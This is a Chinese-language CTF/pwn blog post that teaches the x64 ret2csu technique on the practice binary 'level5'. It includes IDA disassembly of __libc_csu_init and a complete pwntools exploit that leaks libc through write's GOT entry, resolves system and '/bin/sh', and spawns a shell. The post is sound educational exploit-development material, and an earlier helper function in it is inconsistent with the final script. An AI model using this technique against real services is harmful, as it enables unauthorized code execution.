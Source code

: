 ```yaml
---
layout: post
title: "libc-csu x64利用"
subtitle: "libc-csu x64利用"
author: "Novocaine#p1an0@qq.com"
header-img: "img/post-bg-dreamer.jpg"
header-mask: 0.4
tags:
  - PWN
  - 二进制安全
---
```



题目链接：
==
https://github.com/zhengmin1989/ROP_STEP_BY_STEP/raw/master/linux_x64/level5
前言
--

- ret2libc 无有效gadgets的利用方式
- 在使用libc的elf程序里，都会加载libc_csu_init，不同版本函数不同，本文用蒸米的《一步一步学ROP》的第五关来看看。
- 先来看看libc_csu_init是啥，直接IDA：
```
.text:00000000004005A0 ; void _libc_csu_init(void)
.text:00000000004005A0                 public __libc_csu_init
.text:00000000004005A0 __libc_csu_init proc near               ; DATA XREF: _start+16↑o
.text:00000000004005A0
.text:00000000004005A0 var_30          = qword ptr -30h
.text:00000000004005A0 var_28          = qword ptr -28h
.text:00000000004005A0 var_20          = qword ptr -20h
.text:00000000004005A0 var_18          = qword ptr -18h
.text:00000000004005A0 var_10          = qword ptr -10h
.text:00000000004005A0 var_8           = qword ptr -8
.text:00000000004005A0
.text:00000000004005A0 ; __unwind {
.text:00000000004005A0                 mov     [rsp+var_28], rbp
.text:00000000004005A5                 mov     [rsp+var_20], r12
.text:00000000004005AA                 lea     rbp, cs:600E24h
.text:00000000004005B1                 lea     r12, cs:600E24h
.text:00000000004005B8                 mov     [rsp+var_18], r13
.text:00000000004005BD                 mov     [rsp+var_10], r14
.text:00000000004005C2                 mov     [rsp+var_8], r15
.text:00000000004005C7                 mov     [rsp+var_30], rbx
.text:00000000004005CC                 sub     rsp, 38h
.text:00000000004005D0                 sub     rbp, r12
.text:00000000004005D3                 mov     r13d, edi
.text:00000000004005D6                 mov     r14, rsi
.text:00000000004005D9                 sar     rbp, 3
.text:00000000004005DD                 mov     r15, rdx
.text:00000000004005E0                 call    _init_proc
.text:00000000004005E5                 test    rbp, rbp
.text:00000000004005E8                 jz      short loc_400606
.text:00000000004005EA                 xor     ebx, ebx
.text:00000000004005EC                 nop     dword ptr [rax+00h]
.text:00000000004005F0
.text:00000000004005F0 loc_4005F0:                             ; CODE XREF: __libc_csu_init+64↓j
.text:00000000004005F0                 mov     rdx, r15
.text:00000000004005F3                 mov     rsi, r14
.text:00000000004005F6                 mov     edi, r13d
.text:00000000004005F9                 call    qword ptr [r12+rbx*8]
.text:00000000004005FD                 add     rbx, 1
.text:0000000000400601                 cmp     rbx, rbp
.text:0000000000400604                 jnz     short loc_4005F0
.text:0000000000400606
.text:0000000000400606 loc_400606:                             ; CODE XREF: __libc_csu_init+48↑j
.text:0000000000400606                 mov     rbx, [rsp+38h+var_30]
.text:000000000040060B                 mov     rbp, [rsp+38h+var_28]
.text:0000000000400610                 mov     r12, [rsp+38h+var_20]
.text:0000000000400615                 mov     r13, [rsp+38h+var_18]
.text:000000000040061A                 mov     r14, [rsp+38h+var_10]
.text:000000000040061F                 mov     r15, [rsp+38h+var_8]
.text:0000000000400624                 add     rsp, 38h
.text:0000000000400628                 retn
.text:0000000000400628 ; } // starts at 4005A0
.text:0000000000400628 __libc_csu_init endp
```
- 可以看出来在最后一段是可以通过栈控制rbx,rbp,r12,r13,r14,r15
- 而linux下x64函数调用传参的顺序是rdi，rsi，rdx，rcx，r8，r9，后面都通过栈传递参数。
- 对比一下，好像并不能控制函数调用
但是4005F0处：
```
.text:00000000004005F0                 mov     rdx, r15
.text:00000000004005F3                 mov     rsi, r14
.text:00000000004005F6                 mov     edi, r13d
```
rdx = r15,rsi=r14,edi=r13d
rdi的低位=edi，所以同样能起到控制rdi的作用。
同时控制r12还能搞函数调用
```
.text:00000000004005FD                 add     rbx, 1
.text:0000000000400601                 cmp     rbx, rbp
.text:0000000000400604                 jnz     short loc_4005F0
```
只要控制rbx为0，rbp为1就行了
例题：
==
```C
ssize_t vulnerable_function()
{
  char buf; // [rsp+0h] [rbp-80h]

  return read(0, &buf, 0x200uLL);
}
```

def csu
--
直接构造payload就行，这里方便理解把栈图画出来
```python
def csu(rbx,rbp,r12,r13,r14,r15):
    payload = padding + p64(csu_end)
    payload += p64(0)
    payload += p64(rbx)+p64(rbp)+p64(r13)+p64(r14)
    payload += p64(csu_start)
    payload += "a"*(6*8+8)
    payload += p64(main)
    s.sendline(payload)
```
在调用过libc_csu_init之后我们还需要把main函数覆盖到ret上，前面padding7*8个字节(6个寄存器+一个rbp)
所以得出：
	loc_400606 用来控制寄存器
	loc_4005F0 用来做函数调用
利用后的程序流程应该是：

vulnerable_function -> loc_400606 -> loc_4005F0 -> main -> vulnerable_function -> loc_400606 -> loc_4005F0 -> systemAddr

exploit
---
到这里就是基本操作了（看了别人的exp，比我写的好看多了QAQ
```python
from pwn import *

from LibcSearcher import LibcSearcher

import time

elf = ELF("level5")

proc = process("./level5")

write_got = elf.got["write"]

main = 0x0400564

padding = "a" * 0x88

csu_start = 0x4005F0

csu_end = 0x400606

def csu(rbx, rbp, r12, r13, r14, r15, ret):
	payload = ""
	payload += padding+p64(csu_end)
	payload += p64(0)
	payload += p64(rbx)+p64(rbp)+p64(r12)+p64(r13)+p64(r14)+p64(r15)
	payload += p64(csu_start)
	payload += "\x00" * (7*8)
	payload += p64(ret)
	proc.sendline(payload)

csu(0,1,write_got,1,write_got,8,main)

print proc.recvline()

write_addr = u64(proc.recvline()[0:8])

print hex(write_addr)

libc = LibcSearcher("write",write_addr)

libcbase = write_addr - libc.dump('write')

system = libcbase + libc.dump('system')

bin_sh = libcbase + libc.dump('str_bin_sh')

read_got = elf.got['read']

bss = 0x601028

csu(0,1,read_got,0,bss,16,main)

time.sleep(5)

proc.send(p64(system))

proc.send("/bin/sh"+"\x00")

csu(0,1,bss,bss+8,0,0,main)

proc.interactive()
```



